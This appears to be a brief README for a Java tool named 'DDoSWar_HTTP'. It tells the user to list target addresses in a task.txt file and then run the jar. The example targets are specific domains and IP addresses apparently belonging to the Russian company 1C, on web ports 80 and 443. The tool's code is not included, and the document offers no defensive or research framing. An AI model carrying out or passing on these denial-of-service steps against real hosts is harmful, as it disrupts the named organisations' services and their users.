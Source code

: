 # DDoSWar_HTTP
- Create a task.txt file. Put in adresses. For example:
```https://nfo-report.1c.ru
  185.12.155.115 (80/tcp, 443/tcp)
  http://downloads.1c.ru
  185.12.155.210 (80/tcp, 443/tcp)
  https://v8.1c.ru
  185.169.155.230 (80/tcp, 443/tcp)
```
- Run application by command java -jar --enable-preview ddoswarhttp.jar